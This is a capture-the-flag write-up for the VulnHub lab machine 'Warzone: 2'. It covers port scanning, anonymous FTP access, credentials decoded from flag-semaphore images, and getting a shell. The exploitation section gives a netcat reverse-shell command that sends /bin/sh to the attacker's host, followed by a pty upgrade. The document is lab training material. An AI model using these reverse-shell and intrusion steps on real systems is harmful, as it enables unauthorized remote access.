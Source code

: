 # Warzone: 2

[Machine](https://www.vulnhub.com/entry/warzone-2,598/ "https://www.vulnhub.com/entry/warzone-2,598/")

## Reconnaissance

### nmap

#### Ports scanning:
```
nmap -sS -T4 -p- 192.168.88.224 -oA ports
```
#### Services scanning:
```
nmap -sV -O -p21,22,1337 192.168.88.224 -oA services
```
### ftp

Anonymous login is allowed.

![ftp](screenshots/ftp.png)

From there we have three pictures.

username:

![username](ftp/username.PNG)

password:

![password](ftp/password.PNG)

token:

![token](ftp/token.PNG)

I searched for cipher on the username and password pictures. And I got [a flag semaphore](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore").

Decode the symbols from pictures and get a username and a password in `creds/`. I wrote it in upper case as wiki says.

### port 1337

1337 port seems to be a custom application.

I tried to take a banner:

![1337 conn](screenshots/1337_banner.png)

## Threat modeling

I think that it is enough to gather. Now we have the creds and have the 1337 port with login. I believe we easily will get remote access and that's all. 

By the way, need to write a script to create the token!

## Vulnerability analysis

### vsftpd

Not vulnerable.

### ssh

Not vulnerable.

### Misconfiguration of ftp

The main vulnerability is this. But I don't know about backend of 1337 port. Maybe here we can also have binary vulnerabilities.

## Exploitation

### Token

[Script to create a token](token.py)

Successfully got access with 'lower' credentials.

![access](screenshots/1337_access.png)

But we don't have shell yet.

### Shell

Get shell is easy:

Local:
```
nc -lnvp 4444
```
Target:
```
nc 192.168.88.225 4444 -c /bin/sh
```
So, after target connected to us, it will open a shell.

![shell](screenshots/shell.png)

```
python -c 'import pty;pty.spawn("/bin/bash")'
```
User - `www-data`.

### ssh flagman

In flagman home directory:

![warzone](screenshots/warzone.png)

Now we have a good shell and ssh access.

## Post exploitation

## Sources

### Flag semaphore

[wiki](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore")
